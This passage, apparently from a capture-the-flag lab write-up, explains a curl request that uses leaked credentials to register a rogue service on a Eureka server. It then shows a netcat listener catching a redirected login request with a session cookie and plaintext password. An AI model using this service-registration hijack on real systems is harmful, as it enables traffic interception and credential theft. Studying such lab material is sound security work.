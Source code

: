 * `curl -X POST`
    
    * Sends an HTTP POST request.
        
    * POST is used here because we are **creating a new service instance** on the Eureka server.
        
* URL with credentials
    
    ```php
    http://EurekaSrvr:0scarPWDisTheB3st@localhost:8761/eureka/apps/USER-MANAGEMENT-SERVICE
    ```
    
    * `EurekaSrvr` → username
        
    * `0scarPWDisTheB3st` → password
        
    * [`localhost:8761`](http://localhost:8761) → Eureka server address and port
        
    * `/eureka/apps/USER-MANAGEMENT-SERVICE` → endpoint to register the service called `USER-MANAGEMENT-SERVICE`.
        
* `-H "Content-Type: application/json"`
    
    * Sets the HTTP header `Content-Type` to `application/json`.
        
    * Tells the server that the request body is in **JSON format**.
        
* `-d 'JSON_PAYLOAD'`
    
    * The `-d` option sends the **data payload** in the POST request.
        
    * This JSON payload contains the **service instance information**:
        
    
    **Key fields explained:**
    
    * `"instanceId"`: Unique identifier for the service instance. Usually combines service name, IP, and port.
        
    * `"hostName"` & `"ipAddr"`: Host information where the service runs.
        
    * `"app"`: Service name.
        
    * `"vipAddress"` & `"secureVipAddress"`: Virtual IP addresses used for service discovery.
        
    * `"status"`: Indicates service health (`UP` = healthy).
        
    * `"port"`: Port number where the service listens (`"$": 8081`) and whether it’s enabled.
        
    * `"dataCenterInfo"`: Describes the environment or data center. `"MyOwn"` is custom (not AWS).
        

### Traffic Interception

Start a netcat listener to capture intercepted traffic:

```bash
nc -lvnp 8081
```

**Captured credentials:**

```php
POST /login HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Cookie: SESSION=MDg3NWY3NzItYTFlMS00Y2EwLWE2YTgtMDNkMGFjMjU1N2Fm

username=miranda.wise%40furni.htb&password=IL%21veT0Be%26BeT0L0ve&_csrf=...
```
